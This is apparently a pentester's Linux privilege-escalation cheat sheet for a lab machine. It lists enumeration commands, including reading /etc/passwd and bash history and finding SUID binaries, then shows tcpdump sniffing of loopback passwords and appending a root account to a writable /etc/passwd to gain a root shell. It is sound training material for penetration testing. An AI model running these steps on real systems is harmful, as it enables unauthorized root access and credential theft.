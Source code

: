 **[Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**

There are several key pieces of information we should always obtain:
```text
- User context
	# id
	# cat /etc/passwd (check write permissions)
	# hostname
	# sudo -l
- Abuse Setuid Binaries and Capabilities
	# /usr/sbin/getcap -r / 2>/dev/null (Find cap_setuid+ep, even grep by cap_setuid)
- Directories writable by the current user
	# find / -writable -type d 2>/dev/null
- Scheduled tasks
	# ls -lah /etc/cron*
	# sudo crontab -l
	# grep "CRON" /var/log/syslog
- Information about the operating system release and version
	# cat /etc/issue
	# cat /etc/os-release
	# uname -a
- Processes (Also execute PSPY binary)
	# ps aux
- Check for multiple networks to pivot
	# ip a
	# route
- Connections
	# ss -tulpn
- Applications
	# dpkg -l
- Mounted filesystems
	# cat /etc/fstab
	# mount
- Available disks
	# lsblk
- Kernel loaded modules
	# lsmod
	# /sbin/modinfo <loaded module> (find out more about the specific module)
- SUID-marked binaries
	# find / -perm -u=s -type f 2>/dev/null
- Environment variables
	# env
- Bash configuration and history
	# cat .bashrc
	# cat .bash_history
```

After this enumeration, execute **[my script](https://github.com/ajcriado/burbles-by-peluqqi)** and then launch **unix-privesc-check** and **linpeas.sh**. If nothing found, check **pspy** and inspect the processes

Let's try to capture traffic in and out of the loopback interface, then dump its content in ASCII using the **-A** parameter. Ultimately, we want to filter any traffic containing the "pass" keyword.

```text
joe@debian-privesc:~$ sudo tcpdump -i lo -A | grep "pass"
[sudo] password for joe:
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...{...zuser:root,pass:lab -
...5...5user:root,pass:lab -
```

With write access in /etc/passwd file we can create a root user with our own password (we can even change root user password):

```bash
joe@debian-privesc:~$ openssl passwd w00t
Fdzt.eqJQ4s0g

joe@debian-privesc:~$ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

joe@debian-privesc:~$ su root2
Password: w00t

root@debian-privesc:/home/joe# id
uid=0(root) gid=0(root) groups=0(root)
```
